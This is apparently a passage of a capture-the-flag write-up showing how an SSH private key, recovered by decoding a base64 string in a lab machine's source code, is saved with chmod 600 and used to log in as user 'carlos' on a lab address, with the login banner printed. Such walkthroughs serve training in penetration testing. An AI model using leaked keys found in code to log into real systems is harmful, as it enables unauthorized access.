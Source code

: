 * After decode the base64 encoded string, we get the ssh key to login the system.
![[decode]](https://github.com/jitmondal1/Researcher/blob/main/Screenshot%202024-12-04%20184042.png)

* Then we write the ```id_rsa``` key in ```id_rsa```file.
* Then we give the sufficient permission to the file.
```code
chmod 600 id_rsa
```
* Then login to the system using the ssh key
```code
┌──(kali㉿kali)-[~]
└─$ ssh -i id_rsa carlos@10.10.202.113
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-213-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Wed Dec  4 13:15:42 UTC 2024

  System load:  0.01               Processes:           104
  Usage of /:   24.5% of 18.53GB   Users logged in:     0
  Memory usage: 44%                IP address for eth0: 10.10.202.113
  Swap usage:   0%


Expanded Security Maintenance for Infrastructure is not enabled.

0 updates can be applied immediately.

146 additional security updates can be applied with ESM Infra.
Learn more about enabling ESM Infra service for Ubuntu 18.04 at
https://ubuntu.com/18-04

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Wed Dec  4 13:13:04 2024 from 10.17.28.127
carlos@researcher:~$ 

```
